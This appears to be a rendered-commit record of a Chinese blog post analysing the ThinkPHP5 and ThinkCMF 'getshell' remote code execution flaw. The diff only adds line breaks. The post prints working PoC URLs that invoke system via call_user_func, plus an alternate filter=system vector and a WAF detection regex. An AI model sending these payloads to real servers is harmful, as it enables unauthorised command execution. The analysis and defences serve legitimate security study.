

Before and after one commit to white-cell/white-cell.github.io, a Jekyll site: the page built from _posts/2018-12-11-Thinkphp5 getshell漏洞分析.md, in a window 1280 px wide and 1400 px high, scrolled down 416 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

```diff
--- a/_posts/2018-12-11-Thinkphp5 getshell漏洞分析.md
+++ b/_posts/2018-12-11-Thinkphp5 getshell漏洞分析.md
@@ -8,26 +8,26 @@ title:  "Thinkphp5 getshell漏洞分析"
 * 实际上在不同使用thinkphp5开发的cms中getshell的参数会有差异
 
 ### 在thinkphp5 getshell poc
-这是目前公开5.0.20的poc
-/index.php?s=index/\think\app/invokefunction&function=call_user_func&var[0]=system&var[1]=ls
+这是目前公开5.0.20的poc<br/>
+/index.php?s=index/\think\app/invokefunction&function=call_user_func&var[0]=system&var[1]=ls<br/>
 ![图片0](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/0.jpg)<br />
-调用过程如下
+调用过程如下<br/>
 ![图片1](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/1.jpg)<br />
-详情分析：https://www.anquanke.com/post/id/167653
-另外可利用的index/\think\request/input
-传入data=ls name= default= filter=system
+详情分析：https://www.anquanke.com/post/id/167653<br/>
+另外可利用的index/\think\request/input<br/>
+传入data=ls name= default= filter=system<br/>
 ![图片2](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/2.jpg)<br />
-通过call_user_func执行
+通过call_user_func执行<br/>
 ![图片3](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/3.jpg)<br />
-并不局限于以上两个方法，但一定是think\这个命名空间下的已知类
+并不局限于以上两个方法，但一定是think\这个命名空间下的已知类<br/>
 ### thinkcmf利用过程区别
-getshell poc
-/public/index.php?s=portal/\think\app/invokefunction&function=call_user_func&function_name=system&parameters=whoami
+getshell poc<br/>
+/public/index.php?s=portal/\think\app/invokefunction&function=call_user_func&function_name=system&parameters=whoami<br/>
 ![图片4](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/4.jpg)<br />
-1.thinkcmf默认不存在index，这里我选用portal
+1.thinkcmf默认不存在index，这里我选用portal<br/>
 ![图片5](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/5.jpg)<br />
-2.参数差异，这里要使用function_name parameters
+2.参数差异，这里要使用function_name parameters<br/>
 
 ### 防护
-1.代码本身就更新thinkphp5，或修改代码。
-2.防护设备可以匹配s=.*?/\\think\\.*?来判定，解释下s参数是thinkphp5 var_pathinfo的默认配置为s，利用的类目前也都是在think\这个命名空间下的已知类。
+1.代码本身就更新thinkphp5，或修改代码。<br/>
+2.防护设备可以匹配s=.*?/\\think\\.*?来判定，解释下s参数是thinkphp5 var_pathinfo的默认配置为s，利用的类目前也都是在think\这个命名空间下的已知类。<br/>
```
